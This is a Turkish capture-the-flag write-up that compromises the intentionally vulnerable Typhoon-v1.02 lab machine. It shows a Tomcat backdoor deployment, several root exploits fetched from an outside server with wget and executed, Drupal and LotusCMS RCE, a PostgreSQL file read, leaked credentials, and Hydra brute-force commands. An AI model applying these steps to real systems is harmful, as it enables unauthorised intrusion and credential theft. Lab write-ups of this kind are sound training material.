 
---
layout: post
title: "Typhoon-v1.02 WRITEUP"
---

***Hazırlayanlar: [Alp Eren Işık](https://github.com/isikerenalp)  [Feyzi Yuşa Karababa](https://github.com/Fykarababa)***

***
PRISMA CSI tarafından hazırlanan Typhoon-v1.02 makinesini elimizden geldiği kadar çözmeye çalıştık ve sizler için ufak bir writeup hazırladık. Biz çözerken çok zevk aldık umarım sizler içinde zevkli bir writeup olur.
***

# `NMAP`
  İlk aşamada Nmap ile port taraması yaparak çalışan servisleri ve versiyonları öğrendik.
  Devamında bu servisler ve versiyonları üzerinden mevcut exploitleri araştıracağız.

  ![nmap](/images/typhoon_writeup/nmap.png)

# `Apache Tomcat`
  Metasploit kullanarak **use auxiliary/scanner/http/tomcat_mgr_login** scanner kullanarak tomcat parolasını bulmaya çalışıyoruz.

  ![](/images/typhoon_writeup/msf1.png)

  Aşşağıda gördüğünüz gibi tomcat username ve password bulmuş oluyoruz

  ![](/images/typhoon_writeup/msf2.png)

  Daha sonra **10.242.24.216:8080/manager** adresine giderek bulmuş olduğumuz **username** `(tomcat)` ve **password** `(tomcat)` ile giriş yapıyoruz.

  ![](/images/typhoon_writeup/tomcat_tomcat.png)

  Giriş yaptıktan sonra tekrar Metasploitimize geri dönüyoruz ve **msfvenom** ile backdoor oluşturuyoruz.

  ![](/images/typhoon_writeup/msf3.png)

  Daha sonra oluşturmuş olduğumuz bu backdooru girmiş olduğumuz **tomcat** üzerinden **deploy** ediyoruz

  ![](/images/typhoon_writeup/tomcat_deploy.png)

  Deploy ettikten sonra tekrar Metasploitimize gelerek `use exploit/multi/handler` yazıyoruz daha sonra modülümüze bağlanacağımız backdoor payloadımızı ve bilgilerimizi giriyoruz.

  Artık tarayıcımızdan `10.242.24.216:8080/manager/typhoon/lyrzruiw.jsp` adresine girebiliriz.


  ![](/images/typhoon_writeup/msf4.png)

  ![](/images/typhoon_writeup/tomcat_backdoor.png)

  Bu aşamadan sonra sunucuda **ROOT** olmaya çalışacağız.


# `Yetki Yükseltme - 1 (dirtycow)`
    https://www.exploit-db.com/exploits/40616
  Backconnect olduğumuz makinemizde **C** kodunu derleyemediğimiz için derleme işlemini uzak sunucuda gerçekleştirmeye karar verdik.

  Uzak sunucumuzda `wget https://www.exploit-db.com/raw/40616/index.html` ile komutları çektik ve uzak sunucumuzda bunu derledik. Daha sonra Typhoon makinesinde `wget https://sunucu_adresi/prisma` diyerek derlenmiş **C** kodunu makinemize yüklemiş olduk. Derleyip wget ile çekmiş olduğumuz exploitimizi makinemizde çalıştırdık ve **ROOT** olduk. Son olarak `echo 0 > /proc/sys/vm/dirty_writeback_centisecs` komutunu girerek exploitimizin stabil olmasını sağlayarak sunucunun crash olmasını engelliyoruz. :)

  ![](/images/typhoon_writeup/msf5_dirtycow.png)

# `Yetki Yükseltme - 2 (Ubuntu Kernel Exploit)`
    https://www.exploit-db.com/exploits/37292/
Yukarıda anlatmış olduğumuz işlemleri bu exploitimiz ile de uygulayarak `wget https://sunucu_adresi/ubn` ile çekmiş olduğumuz exploitimizi makinemizde çalıştırarak  **ROOT** oluyoruz. :)

![](/images/typhoon_writeup/msf5_ubuntu_exploit.png)

# `Samba smbd 3.X - 4.X (ROOT)`
    Github Code = https://github.com/rapid7/metasploit-framework/blob/0520d7cf76f8e5e654cb60f157772200c1b9e230/modules/exploits/linux/samba/is_known_pipename.rb

Çalışan versiyonda bir exploit olduğunu öğrendik. Githubda bulduğumuz kodu `wget` ile **/opt/metasploit/modules/exploits/linux/samba/** dizini altına **is_known_pipename.rb** ismiyle kaydettik. Daha sonra metasploit üzerinden exploiti kullanarak makinemizde **ROOT** olduk. :)

![](/images/typhoon_writeup/samba.png)  

    NOT: Eğer bu aşamadan sonra root olmaz ise devamında dirtycow ile rootlayabilirsiniz.

# `Phpmyadmin Username && Password`
Sunucumzuda root olduktan sonra içeriye bir de shell atalım dedik. Shellimizden dizinleri ve dosyaları gezerken `/var/www/html/dvwa/config/config.inc.php` dosyası içerisinde **phpmyadmin** kullanıcı adı ve parolasını bulduk.

![](/images/typhoon_writeup/phpmyadmin1.png)

![](/images/typhoon_writeup/phpmyadmin2.png)

![](/images/typhoon_writeup/phpmyadmin3.png)

# `Kullanıcı Adı ve Parolası`
Shellimizi attıktan sonra bir de mongoadmin dikkatimizi çekti ve biz de  `http://192.168.43.114/mongoadmin/` adresine gittik.

**credentials** Bir değişiklik yapmadan bu şekilde aratıyoruz.

![](/images/typhoon_writeup/mongoadmin1.png)

**creds (2)**

![](/images/typhoon_writeup/mongoadmin2.png)

Kullanıcı adı ve parolasını öğrenmiş olduk.

![](/images/typhoon_writeup/mongoadmin3.png)

URL= `http://192.168.43.114/mongoadmin/index.php?db=credentials&action=listRows&collection=creds`

**Username** : `typhoon` && **Password** : `789456123`

![](/images/typhoon_writeup/login.png)


# `PostgreSQL DB 9.3.3 - 9.3.5 Exploit ile Dosya Okuma`
Çalışan PostgreSQL sürümünde dosyaları okumamıza imkan sağlayan bir exploit olduğunu farkettik. ve  Metasploitimiz ile işe koyulmaya başladık :)

    auxiliary/admin/postgres/postgres_readfile

    Not: 'exploit' yerine 'set RFILE ../okunacak_dosya' komutu ile dosyaları okuyabilirsiniz

![](/images/typhoon_writeup/postgresql_read-file.png)


# `Drupal-8 RCE`
***
view-source:http://192.168.1.60/drupal diyerek drupalın sürümünün 8 olduğunu öğrendikten sonra aklımıza Drupal-8 de bulunan RCE geldi.

Drupal RCE CVE-2018-7600 : https://www.exploit-db.com/exploits/44448/  

***
Drupalın **register** bölümünde mevcut olan `RCE` zaafiyeti.

![](/images/typhoon_writeup/drupal.png)

Bunun dışında şöyle bir yöntem izlenebilir , drupalın default olarak config dosyası **sites/default/settings.php** de bulunmakta. Bunu `RCE` açığı ile okuyup database username ve password bilgileri alınıp phpmyadmine giriş yapılabilir.

![](/images/typhoon_writeup/drupal2.png)

**NOT:** `Post olarak gönderdiğimizde ilk olarak shell atmaya çalıştık fakat drupalın dizininde yazma izni yoktu. Ardından pwd komutu ile bulunduğu dizini öğrendik. Sonra var/www/html dizininde yazma izni olduğunu gördük ve shellimizi yükledik. :)`

# `LotusCMS RCE Exploit`
    use exploit/multi/http/lcms_php_exec
    https://www.exploit-db.com/exploits/18565/
  Sistemin kullandığı CMS yazılımının LotusCMS olduğunu öğrendik ve google'da kısa bir araştırma yaptıktan sonra **RCE** exploitinin olduğunu gördük. Daha sonra kullanacağımız exploiti ve bilgilerimizi girdikten sonra `exploit` diyerek çalıştırıyoruz.

![](/images/typhoon_writeup/lotuscms.png)

# `Brute Force ile Parola Tespiti`
***
  Burada Hydra ile **SSH** ve **FTP** 'ye brute force yaparak parolayı bulduk.

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ssh

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ftp
***
`SSH`

![](/images/typhoon_writeup/hydra-ssh.png)

`FTP`

![](/images/typhoon_writeup/hydra_ftp.png)
